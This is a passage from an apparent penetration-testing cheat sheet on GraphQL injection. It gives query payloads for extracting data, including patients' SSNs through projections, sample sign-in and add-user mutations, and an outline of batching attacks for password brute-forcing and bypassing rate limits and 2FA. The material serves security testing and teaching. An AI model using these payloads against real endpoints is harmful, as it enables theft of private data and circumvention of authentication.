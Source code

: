 ## Methodology

### Extract Data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)

### Extract Data Using Edges/Nodes

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### Extract Data Using Projections

:warning: Don’t forget to escape the " inside the **options**.

```js
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```

### Mutations

Mutations work like function, you can use them to interact with the GraphQL.

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### GraphQL Batching Attacks

Common scenario:

- Password Brute-force Amplification Scenario
- Rate Limit bypass
- 2FA bypassing

#### JSON List Based Batching

> Query batching is a feature of GraphQL that allows multiple queries to be sent to the server in a single HTTP request. Instead of sending each query in a separate request, the client can send an array of queries in a single POST request to the GraphQL server. This reduces the number of HTTP requests and can improve the performance of the application.
